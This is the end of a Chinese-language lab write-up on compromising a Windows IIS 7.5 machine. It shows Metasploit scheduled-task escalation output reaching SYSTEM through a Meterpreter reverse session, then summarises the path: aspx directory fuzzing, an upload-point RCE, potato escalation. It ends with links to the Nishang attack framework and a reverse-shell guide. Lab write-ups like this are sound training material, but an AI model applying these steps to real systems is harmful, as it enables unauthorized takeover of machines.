 ```
[*] SUCCESS: The parameters of scheduled task "LXJM4TwyEqICqyv" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.10.10.93
[*] SUCCESS: Attempted to run the scheduled task "LXJM4TwyEqICqyv".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4444 -> 10.10.10.93:49175) at 2021-12-20 22:38:40 -0500
[*] SUCCESS: The scheduled task "LXJM4TwyEqICqyv" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

已经拿到SYSTEM权限，至此我们可以读取系统内任何文件。

# 总结

本文渗透的是windows主机，nmap扫描出中间件是IIS7.5，通过网页信息知道靶机运行aspx程序

爆破时选择字典指定了扩展名aspx

当得知有一个上传点时，优先需要知道中间件的解析漏洞信息，以及rce利用信息

通过rce得到初始shell

提权的时候，看到初始用户开启了```SeImpersonatePrivilege```,也可以考虑用potato提权

> nishang框架是什么：
> 
> Nishang是一个PowerShell攻击框架，它是PowerShell攻击脚本和有效载荷的一个集合。
> 
> 项目下载地址：https://github.com/samratashok/nishang
> 
> Nishang powershell框架——使用教程：https://blog.csdn.net/weixin_40412037/article/details/115510209

> Windows安全之powershell反弹shell：https://blog.csdn.net/qq1113673178/article/details/123888025